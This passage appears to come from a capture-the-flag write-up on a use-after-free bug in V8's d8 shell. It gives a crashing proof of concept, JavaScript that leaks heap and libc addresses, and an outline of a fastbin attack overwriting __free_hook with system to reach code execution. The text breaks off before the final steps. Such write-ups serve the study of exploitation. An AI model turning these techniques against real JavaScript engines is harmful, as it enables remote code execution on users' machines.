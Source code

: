 
Detaching an ArrayBuffer will cause d8 to free this buffer. If we later call `TypedArray.prototype.set()` on this buffer, **we'll be able to trigger an UAF vulnerability**. Here's a PoC that will crashes the program:

```javascript
function pwn() {
    const buffer = new ArrayBuffer(8);
    const buffer2 = new ArrayBuffer(8);
    const uint8 = new Uint8Array(buffer);
    const uint82 = new Uint8Array(buffer2);

    // Copy the values into the array starting at index 3
    uint82.set([1, 2, 3], 3); 
    uint8.set([4, 5, 6], 3); 
    console.log(uint8);

    %ArrayBufferDetach(buffer); // free buffer
    uint8.set(uint82,0); // copy uint82's content to uint8

    console.log(uint8); // crash
}

pwn();
```

The reason why the program crash is because after freeing the buffer, `uint8`'s ArrayBuffer was freed and the chunk was putted into tcache 0x20. `uint8.set(uint82,0);` will then overwrite ( corrupting ) tcache 0x20's fd pointer. Finally `console.log(uint8);` will tried to allocate chunk from tcache 0x20, crashing the program.

#### Exploitation

For address leaking, we found that by freeing a size 0x500 ArrayBuffer, we'll be able to get both heap and libc address:

```javascript
const buffer = new ArrayBuffer(0x500);
const buffer2 = new ArrayBuffer(0x500);
const uint8 = new Uint8Array(buffer);
const uint82 = new Uint8Array(buffer2);
const float64 = new Float64Array(buffer2);
%ArrayBufferDetach(buffer); //free
uint82.set(uint8,0); // copy uint8 to uint82
// float64 uses the same buffer as uint82 (buffer2)
heap =  ftoi(float64[0]);
libc = ftoi(float64[1]) - 0x3ebca0n;
console.log("Heap: 0x"+ heap.toString(16));
console.log("Libc: 0x"+libc.toString(16));
```

As for hijacking the control flow, we chose to use the fastbin attack and overwrite `__free_hook` to system, then achieve RCE by freeing an arbitrary string buffer. The whole process can be summarized into the following steps:
